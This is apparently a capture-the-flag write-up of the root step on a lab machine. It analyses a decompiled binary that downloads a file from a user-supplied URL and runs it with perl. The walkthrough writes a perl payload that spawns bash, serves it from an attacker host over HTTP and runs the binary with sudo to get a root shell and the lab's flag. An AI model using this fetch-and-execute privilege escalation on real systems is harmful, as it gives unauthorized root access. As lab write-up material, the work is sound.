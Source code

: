 Lets begin:
firstly the `__stream` opens a file with the name of the second argument meaning it has to be "lDnxUysaQn" because of the if check. Second a Curl request is created with the `param_2 + 8` as the url, lets check what is that: 

edit: `printf("%s", *(char**)(param2 + 8));`

```

$ ./a.out AA BB
AA

```

As you can see `param_2 + 8` is the first argument. 

So that means that the Curl request uses the first argument as its url. So that means to enter the if statement we need to have real url because it wouldn't return 0(true) if the url wouldn't be real. Now after entering the if statement the next lines use the snprintf and malloc functions to create a copy of the URL specified in the first argument then:

```
iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
```

these lines use `snprintf` and `malloc` to create a command string to be executed by the system function. The command is a `perl` script located in the current directory, with the filename being the copied URL from the first argument.

So if you understand that you'll now that we want to create a `perl` payload that runs the just:

```
$ cat root.pl     
exec "/bin/bash";
```

and now create a http server, we can do that with python:

`$ python3 -m http.server 80`

```
$ sudo /usr/bin/binary http://10.10.14.17/root.pl lDnxUysaQn 
Running... 
root@investigation:~# cat root.txt
2d1f5807ef0f08da03e076836ca2d5fb
```
